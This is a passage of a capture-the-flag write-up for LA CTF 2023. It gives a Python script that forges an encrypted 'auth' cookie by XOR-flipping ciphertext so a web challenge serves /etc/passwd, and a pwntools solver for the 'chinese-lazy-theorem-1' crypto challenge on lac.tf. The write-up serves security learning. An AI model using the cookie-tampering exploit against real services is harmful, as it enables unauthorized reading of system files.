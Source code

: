 ```python
auth = unquote(auth)
[iv, authTag, ct] = auth.split(".")

new_tmpfile = b'{"tmpfile":"/etc/passwd"}'
partial_tmpfile = b'{"tmpfile":"/tmp/pastestore/"}'
new_ct = xor(new_tmpfile, xor(partial_tmpfile, b64decode(ct)))
new_ct = b64encode(new_ct).decode()

new_auth = f"{iv}.{authTag}.{new_ct}"
print("new cookie: "+new_auth)

a = requests.get(URL, cookies={"auth": new_auth})
print(a.text)
```

reference: https://github.com/5t0n3/ctf-writeups/tree/main/2023-lactf/web/zero-trust

# Crypto
---
## chinese-lazy-theorem-1

```python
from pwn import *

host = "lac.tf"
r = remote(host, "31110")
p = int(r.recvline().strip().decode())
print('p =',p)
q = int(r.recvline().strip().decode())
print('q =',q)
n = str(p * q)
print('n =',n)

r.sendlineafter(b">> ", b'1')
r.sendlineafter(b"Type your modulus here: ", n.encode())
modulus = r.recvline().strip().decode()
print('mod =',modulus)

r.sendlineafter(b">> ", b'2')
r.sendlineafter(b"Type your guess here: ", modulus.encode())
print()
print(r.recvline().decode())
```

![](Pasted%20image%2020230214115929.png)
